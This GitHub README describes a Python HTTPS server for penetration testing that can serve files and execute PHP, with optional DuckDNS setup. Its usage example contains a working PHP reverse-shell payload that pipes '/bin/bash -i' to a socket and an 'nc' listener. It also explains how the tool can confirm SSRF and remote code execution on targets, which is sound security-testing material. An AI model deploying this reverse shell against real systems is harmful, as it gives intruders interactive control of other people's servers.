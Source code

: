 # rogue-https-server.py
Rogue HTTPS Server is a tool that allows you to create a Python 3.10/3.11 HTTPS/SSL server to receive encrypted connections, serve content, and run PHP scripts.

![1-photo](https://github.com/ajacobhack/rogue-https-server/assets/99199970/79a9f034-23a8-4853-bd9e-d4a245464b92)


Rogue HTTPS Server is a powerful and easy-to-use tool that allows you to create an HTTPS/SSL server with TLS in Python 3.10/3.11, primarily intended for ethical hacking tests that require a server with encrypted connections that may be able to connect to applications websites strictly configured for HTTPS traffic. It provides additional options such as assigning a free DNS to the specified IP address, automatic pem certificate creation, static server, and PHP file execution.

### **Characteristics**

- **HTTPS/SSL Server**: Creates a TCP/IP server at the specified IP address and port to listen for HTTPS/SSL connections, including 443.
- **Free DNS Support**: Assign a free subdomain to the IP address using DuckDNS to access your server more conveniently.
- **PHP code execution**: Executes PHP code on the server to perform dynamic and custom actions in your web applications.
- **Static File Management**: Serve static files, such as HTML, CSS, JavaScript, images and more, to display content on your server.

## Use

1. Clone the Rogue HTTPS Server repository to your local machine.
    
     ```
     git clone https://github.com/ajacobhack/rogue-https-server.git
     ```
    
2. Navigate to the project directory: `cd rogue-https-server`.
3. Optional: If you want to assign free DNS using DuckDNS, make sure you have a DuckDNS subdomain and token.
4. Run the server using the following command:
    
     ```bash
     python3 rogue-https-server.py -i <IP_ADDRESS> -p <PORT> -s <SUBDOMAIN> -t <DUCKDNS_TOKEN>
     ```
    
     - `<IP_ADDRESS>`: The IP address on which you want the server to listen for incoming connections.
     - `<PORT>`: The port on which you want the server to listen for incoming connections.
     - `<SUBDOMAIN>` (optional): The subdomain you want to assign for free DNS using DuckDNS.
     - `<DUCKDNS_TOKEN>` (optional): The DuckDNS token needed to assign the subdomain.
5. The server will start listening for incoming connections on the specified IP address and port. If a DuckDNS subdomain and token is provided, the free DNS will be assigned using DuckDNS for the specified subdomain.
6. When an HTTP/HTTPS request is received, the server will respond as follows:
- If the request corresponds to an existing PHP file, the PHP code will be executed and the output will be sent to the client.
- If the request corresponds to an existing static file (HTML, CSS, JS, images, etc.), the content of the file will be sent to the client.
- If the request does not correspond to any existing file, a "404 Not Found" error response will be sent to the client.
- 
![2023-06-05 16_50_16-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/666c0bad-b23a-4ad6-a119-ac43246620b6)

![2023-06-05 16_51_54-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/a37a014d-e92b-4d76-adac-a4d6bb0db105)

![2023-06-05 16_52_31-Window](https://github.com/ajacobhack/rogue-https-server/assets/99199970/e02c0e42-060d-4bfb-920e-9d285b10718b)


## Additional features

- **Automatic generation of PEM files**: If the server does not find the `cert.pem` and `key.pem` files in the working directory, it will automatically generate these files using OpenSSL.
- **Optional Free DNS Configuration**: You can provide a DuckDNS subdomain and token to assign free DNS using DuckDNS. This setting is optional and you can skip it if you don't want to use this functionality.

### **Example of use**

Suppose we want to run PHP code on the server and get an interactive shell connection to the server. Here is an example of how it can be achieved using the server:

1. Run the server at IP address **`127.0.0.1`** and port `443`:
    
     ```bash
     python3 rogue-https-server.py -i 127.0.0.1 -p 443
     ```
    
2. Create a PHP file with the following content and save it as **`shell.php`**:
    
     ```php
     <?php
     $sock = fsockopen("127.0.0.1", 4242); /*CHANGE IP and PORT*/
     $descriptors = array(
         0 => $sock,
         1 => $sock,
         2 => $sock
     );
     $process = proc_open('/bin/bash -i', $descriptors, $pipes);
     ?>
     ```
    
3. Open your web browser and visit **`https://127.0.0.1:443/shell.php`**.
4. In a separate terminal session, start a netcat server to listen on port **`4242`**:
    
     ```bash
     nc -lnvp 4242
     ```
    
5. When you access **`https://127.0.0.1:443/shell.php`** in your browser, the server will execute the PHP code and open a shell connection in the netcat session.

![shell php con exit](https://github.com/ajacobhack/rogue-https-server/assets/99199970/57864150-711f-405e-bc91-fbfbab172a6e)

### Vulnerabilities that help identify and check:
- Security Misconfiguration: target server connects via https to external servers with self-signed certificates, or without dns.
- External Service Interaction (DNS and HTTP): the target server/application can, due to bad configuration, request resources externally through https and previous DNS resolution to any external server, in this case ours.
- Blind SSRF on the target server, which manages to connect via Out-Of-Band to our https server with dns, which could chain execute requests to internal resources.
- RCE PHP: if the target server or application can request resources from our server, they could execute a reverse PHP shell served by our server, achieving remote code execution.

### **Contribution**

We welcome your contributions to Rogue HTTPS Server! If you encounter any issues, have an idea for improvement, or want to add new features, feel free to open an issue or submit a pull request on the official repository.

### **License**

This project currently does not have an open license.

### **Contact**

If you have any questions or suggestions, feel free to contact our team. You can email us at **[info@roguehttpsserver.com](mailto:info@roguehttpsserver.com)** or join our community on the Discord channel **[Rogue HTTPS Server Community](https://discord .gg/roguehttpsserver)**. We look forward to helping you!

### **Thanks**

I want to thank the community of developers and contributors who have made this project possible. Your contributions and feedback have been instrumental in improving Rogue HTTPS Server and providing a useful and reliable tool.

### **Legal warning**

Rogue HTTPS Server is a tool designed to be used for development and ethical purposes only. We are not responsible for any misuse of this tool. Make sure to comply with local laws and regulations when using Rogue HTTPS Server.
